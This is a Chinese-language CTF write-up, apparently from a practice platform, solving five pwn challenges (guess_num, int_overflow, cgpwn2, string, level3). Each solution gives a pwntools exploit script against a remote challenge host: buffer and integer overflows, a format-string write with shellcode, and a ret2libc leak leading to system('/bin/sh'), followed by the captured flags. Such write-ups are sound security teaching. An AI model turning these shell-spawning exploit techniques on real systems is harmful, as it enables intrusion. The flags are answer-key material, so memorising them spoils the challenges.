# guess_num

看一下文件信息



利用gets函数将seed[0]给覆盖掉





距离0x20



我们需要输入十次随机数产生的值



写一个c程序先预判当seed是a的时候产生的随机数分别是多少



payload

```csharp
from pwn import*
from ctypes import*
context.log_level='debug'

r=remote("61.147.171.105", 62815)

payload=b'a'*0x20+p64(1)
print(payload)
r.recvuntil('Your name:')
r.sendline(payload)
libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(1)
for i in range(10):
        r.recvuntil('number:')
        r.sendline(str(libc.rand()%6+1))
        
r.interactive()
```

flag：cyberpeace{2e7c160cb62a80184191528b13ddc215}

# int_overflow

看一下文件信息



找到溢出点strcpy(dest,s)



best距离栈底0x14



这里存在整数溢出，v3最大为255



我们需要返回的地方



payload

```csharp
from pwn import*

r=remote("61.147.171.105", 54712)

payload = b'a'*0x14 + b'a'*4 + p32(0x0804868B) + b'a'*235
r.sendlineafter("choice:",'1')
r.sendlineafter("username:",'www')
r.sendlineafter("passwd:",payload)
        
r.interactive()
```

flag：cyberpeace{63e478a14fceae29048fee68e5021529}

# cgpwn2

看一下文件信息



放入ida，把/bin/bash写入name，再利用gets进行栈溢出





s大小





payload

```csharp
from pwn import*

r=remote("223.112.5.141", 49209)

name_addr = 0x0804A080
system_addr = 0x0804855A
payload = b'a' * (0x26 + 0x4) + p32(system_addr) + p32(name_addr)
r.sendlineafter("please tell me your name\n", '/bin/sh')
r.sendlineafter("hello,you can leave some message here:\n",payload)

        
r.interactive()
```

flag：cyberpeace{55c8bc9b4f3bc2b669a2bb0890542431}

# string

文件信息



存在格式化字符串



我们要让他执行到这里









payload

```csharp
from pwn import *

r = remote("223.112.5.141", 60388)

r.recvuntil("secret[0] is".encode())
addr = int(r.recvuntil(b"\n")[:-1], 16)
r.recvuntil("What should your character's name be:\n".encode())
r.sendline("aaa")
r.recvuntil("So, where you will go?east or up?:\n".encode())
r.sendline("east")
r.recvuntil("go into there(1), or leave(0)?:\n".encode())
r.sendline("1")
r.recvuntil("'Give me an address'\n".encode())
r.sendline(str(addr))
r.recvuntil("And, you wish is:\n".encode())
payload = b'a' * 85 + "%7$n".encode()
r.sendline(payload)
shellcode = asm(shellcraft.amd64.linux.sh(), arch="amd64")
print(shellcode)
r.sendline(shellcode)

r.interactive()
```

flag：cyberpeace{7ed4bded12c985f033ff0fdd1a538af6}

# level3

文件信息



main函数



vulnerable_function函数，return read(0, buf, 0x100u);存在溢出



libc中的函数的相对地址是固定的，要想获取到system函数的地址，可以通过write()函数进行offset计算。
payloa

```csharp
from pwn import *

# 建立远程连接
r = remote("61.147.171.105", 65412)

# 使用ELF执行程序
elf_level3 = ELF('./level3')
elf_libc = ELF('./libc_32.so.6')
# 获得write()plt表地址
write_plt = elf_level3.plt['write']
# 获得write()got表地址
write_got = elf_level3.got['write']
# 获得mian函数实际地址
main_addr = elf_level3.symbols['main']
# 当程序执行到输出'Input:\n'时开始攻击read()函数
r.recvuntil('Input:\n')
# 'a'*(0x88+0x4)：用于填充程序缓冲区及ebp地址，随便什么字符，填满就行
# p32(write_plt)：用于覆盖返回地址，使用plt调用write()函数
# p32(main_addr)：设置write()的返回地址为main()；因为这一步payload只是为了返回write()的got地址，后续的实际攻击还需要继续使用main函数的read()方法，所以write()执行完毕后需要返回到main()
# p32(0)：write()第一个参数，只要转换为p32格式就行
# p32(write_got)：返回write()got表地址，这就是这句payload需要得到的信息
# p32(4)：读入4个字节，也就是write()got表地址
payload_1 = b'a' * (0x88 + 0x4) + p32(write_plt) + p32(main_addr) + p32(0) + p32(write_got) + p32(4)
r.sendline(payload_1)
# 获得write()got表地址
write_got = (u32(r.recv()))
# 计算libc库中的write()地址与level3的write()地址的偏差
libc_py_deviation = write_got - elf_libc.symbols['write']
# 由于偏移是相同的，将偏差值加上libc库中的system地址，便得到了level3中system的实际地址
sys_addr = libc_py_deviation + elf_libc.symbols['system']
# /bin/sh在libc库的位置可以通过string命令配合管道符查看
# strings -a -t x libc_32.so.6 | grep "/bin/sh"
# 计算/bin/sh的实际地址，原理和system一样
binsh_addr = libc_py_deviation + 0x15902b
# 重新返回main函数，再次执行到输出'Input:\n'时，开始第二次攻击
r.recvuntil('Input:\n')
# p32(sys_addr)：覆盖返回地址，跳转到system地址
# p32(0)：覆盖system函数的返回地址，我们目的是获得/bin/sh,所以不care它返回到哪，填充4个字节就行
# p32(binsh_addr)：传入system的参数/bin/sh
payload_2 = b'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0) + p32(binsh_addr)
r.sendline(payload_2)

r.interactive()
```

flag：cyberpeace{550a1e0daec9fc8b9a839c1f36d7eeb7}
